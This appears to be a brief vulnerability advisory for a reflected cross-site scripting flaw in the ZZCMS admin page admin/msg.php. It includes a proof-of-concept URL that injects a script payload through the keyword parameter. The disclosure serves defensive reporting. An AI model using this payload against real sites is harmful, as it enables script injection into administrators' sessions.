

# zzcms-msg-xss

## Supplier

```
http://www.zzcms.net/
```

## Description

A vulnerability was found in ZZCMS up to 2023，

This issue is affected by the component admin/msg.php, which does not control user input, resulting in an XSS vulnerability.


## POC

Admin logs in to the backend to access


```
http://127.0.0.1:8888/admin/msg.php?action=pass&&keyword=';alert(1);//
```





